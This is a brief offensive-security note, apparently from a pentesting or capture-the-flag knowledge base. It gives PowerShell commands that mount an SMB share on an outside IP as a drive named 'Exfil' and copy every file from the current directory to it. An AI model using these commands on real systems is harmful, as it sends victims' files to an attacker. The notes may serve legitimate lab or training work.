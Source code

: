 Tips:
```Powershell
PS C:\> New-PSDrive -Name "SHARE_NAME" -PsProvider "Filesystem" -Root "\\YOUR_IP\YOUR_SHARE_NAME"
PS C:\> New-PSDrive -Name "Exfil" -PsProvider "Filesystem" -Root "\\10.10.14.195\share"
PS C:\> copy * Exfil:\
```
Could be used in tandem with [[Client-Server Connection]] 


